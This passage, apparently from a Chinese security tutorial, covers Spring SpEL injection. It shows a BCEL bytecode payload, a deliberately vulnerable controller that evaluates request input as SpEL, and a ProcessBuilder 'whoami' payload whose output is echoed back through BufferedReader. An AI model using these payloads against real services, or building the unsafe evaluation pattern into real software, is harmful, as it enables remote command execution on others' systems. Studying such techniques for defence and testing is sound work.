 只要能获取到都是可以的。

Bcel字节码
-------

这东西其实都不陌生。

```php
T(com.sun.org.apache.bcel.internal.util.JavaWrapper)._main({"BCEL"})}
```

大概可以是如上形式。  
由于SPEL啥都可以做，所以你不用这个类或者用bcel的classloader也可以

四、霸体螺旋丸回显
=========

那么在Web服务中，困扰我们最多的就是回显问题了，命令执行成功了，不出网，怎么把结果带出来呢？？！不要着急，翻开纯度宝典第四页。  
我的测试代码如下

```java
package com.example.spel.controller;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.SpelParserConfiguration;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload){
        //String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue();
    }
}

```

BufferedReader
--------------

其实这并不是纯粹的回显，因为你需要return这个返回结果，而真实情况一般是不会return这个结果的。  
`payload=new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()`  
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691296567307-bc39406d-2dc3-4338-afa5-127315b5a190.png#averageHue=%23b4b4b4&clientId=u381a1503-3bba-4&from=paste&height=752&id=u23b8154e&originHeight=940&originWidth=1679&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=84003&status=done&style=none&taskId=u529a5f15-7006-4fdd-abd2-876f8dfe275&title=&width=1343.2)  
这只是返回值为输出结果的String而已。
